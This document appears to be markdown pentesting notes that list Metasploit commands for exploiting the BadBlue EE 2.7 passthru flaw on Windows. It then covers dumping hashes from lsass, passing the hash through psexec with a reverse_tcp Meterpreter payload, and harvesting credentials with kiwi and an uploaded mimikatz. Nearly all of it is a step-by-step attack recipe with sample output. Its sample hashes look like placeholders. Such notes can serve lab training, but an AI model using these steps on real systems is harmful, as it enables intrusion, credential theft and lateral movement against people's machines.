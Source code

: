 ```
use exploit/windows/http/badblue_passthru
set target <tab>
set target BadBlue\ EE\ 2.7\ Universal
exploit
```

- `sysinfo` 
> if you meterpreter session is x86 use the below commands
- `pgrep lsass`
- `migrate 792`
- `hashdump` --> copy all the hash with user and save it in a file exit form the meterpreter session
__you will get like this__
```
Administrator:500:aadaflj2498kl3j42h5g243lk2k2lldasjfkhk32828:::
DefaultAccount:503:aadaflj2498kl3j42h5g243lk2k2lldasjfkhk32828:::
Guest:501:aadaflj2498kl3j42h5g243lk2k2lldasjfkhk32828:::
```
- `exit`
- __`search psexec`__
```
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
set SMBUser Administrator
set SMBPass aadaflj2498kl3j42h5g243lk2k2lldasjfkhk32828
exploit

```


- __`load kiwi`__
kiwi commands
  - __`1.creds_all`__
  - __`2.lsa_dump_sam`__
  - __`3.lsa_dump_secrets`__
 

in meterpreter 
- `upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe`
- `shell`
- `.\mimikatz.exe`
- `privilege::debug`
- output: `Privilege '20' OK`
- `sekurlsa::logonpasswords`
- `lsadump::sam`


